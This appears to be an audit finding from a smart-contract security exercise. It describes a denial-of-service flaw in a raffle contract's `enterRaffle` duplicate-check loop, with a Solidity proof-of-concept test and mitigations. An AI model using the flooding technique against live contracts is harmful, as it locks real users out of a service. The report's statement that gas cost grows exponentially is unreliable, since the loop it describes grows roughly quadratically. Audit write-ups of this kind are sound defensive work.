 ### [S-#] Potencial Denial Of Service (DoS) Attack when calling `enterRaffle` function due to looping on `players` array searching for duplicates. 

**Description:**
`enterRaffle` function has a `for loop` that iterates over the `players` array. This `players` array is not bounded to a certain size, which means that we can add any number of items to the list. 
The larger this array becomes, the more the gas cost increases for each call to this function, reaching a point where the gas price is so high that it makes it practically impossible to access the service, rendering the protocol useless.
Down in this section is an example of how much to gas price increase as more players are added to the `players` array.

**Impact:** The gas cost for raffle impact will greatly increase as more players enter the raffle, discouraging later users from entering and causing a rush at the start of the raffle to be one of the first entrants in the queue.

An attacker can make the `players` array so big that no one else can enters. And also can enter a series of owned wallet addresses to guarenteeing that some of those addresses will win.  

**Proof of Concept:**
```javascript
    // AUDIT PoC
    function testDoSAttackOnEnterRaffle() public { 
        vm.txGasPrice(1);     
        uint256 playersToAdd = 99;

        // measure initial gas
        address[] memory initialPlayers = new address[](1);
        initialPlayers[0] = address(1);
        uint256 initialGas = gasleft();
        puppyRaffle.enterRaffle{ value: entranceFee }(initialPlayers);
        uint256 initialGasUsed = initialGas - gasleft();
        
        // Perform DoS
        address[] memory DoSPlayers = new address[](playersToAdd);
        for(uint256 i = 0; i<DoSPlayers.length; i++) {
            DoSPlayers[i] = address(i+2);
        }
        puppyRaffle.enterRaffle{ value: entranceFee * playersToAdd }(DoSPlayers);

        // measure final gas 
        address[] memory finalPlayers = new address[](1);
        finalPlayers[0] = address(101);
        uint256 finalInitialGas = gasleft();
        puppyRaffle.enterRaffle{ value: entranceFee }(finalPlayers);
        uint256 PostAttackGasUsed = finalInitialGas - gasleft();

        // asserts
        assert(initialGasUsed<PostAttackGasUsed);

        console.log("initial gas used:", initialGasUsed);
        console.log("post attack gas used:", PostAttackGasUsed);
        console.log("gas used incresed in a factor of aprox.", PostAttackGasUsed/initialGasUsed, " after attack");
    }
```
explanation of the above code snippet:
1. Perform a call to `enterRaffle` with just one player, and capture the gas used in this transacction on the variable `initialGasUsed`. 
2. *Perform the attack* Add a massive number of players to the raffle (in this case 99 players) to increase the size of `players`. 
3. Finally, repeat the step 1 by adding a single user and store the gas used on this transaction on the variable `postAttackGasUsed`. 
4. At the end, an assertion evaluates that gas price on the "postAttack" transaction is bigger than the initial one. And a series of logs shows how much the gas price increase. In this example, it increments in a factor of near 70 times the initial gas price. In other words, register 1 players becomes 70 times more expensive after add 100 players to the raffle. An the growth of gas price is exponential (O(c^n)) related to the length of the `players` array. 

**Recommended Mitigation:**
1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address. Also regardless the users enter the same wallet, they still have to pay for each one of such register. 
2.  Consider using a map to check for duplicates. For example, a map with the user address as key and a bool value where `true` means is already registered. This will decrease the amount of loops needed to check, because you will have to loop only on the `newPlayers` array. 
